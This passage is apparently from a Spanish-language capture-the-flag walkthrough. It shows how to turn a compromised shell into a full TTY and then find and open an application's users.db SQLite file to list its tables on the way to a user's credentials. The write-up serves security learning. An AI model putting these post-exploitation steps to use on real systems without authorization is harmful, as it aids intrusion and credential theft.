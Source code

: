 Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user marco

Si recordamos anteriormente en el codigo de `app.py` vimos esta linea:

```python
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
```

Por lo que vamos a realizar una busqueda de `users.db` a ver que vemos:

```shell
find / -name "users.db" 2>/dev/null
```

Info:

```
/home/app/app/instance/users.db
```

Vamos a intentar leerlo con `sqlite3` de esta forma:

```shell
sqlite3 /home/app/app/instance/users.db
```

Dentro de la herramienta con dicho archivo listamos las tablas que pueda tener:

```sql
.tables
```

Info:

```
code_snippet  user
```
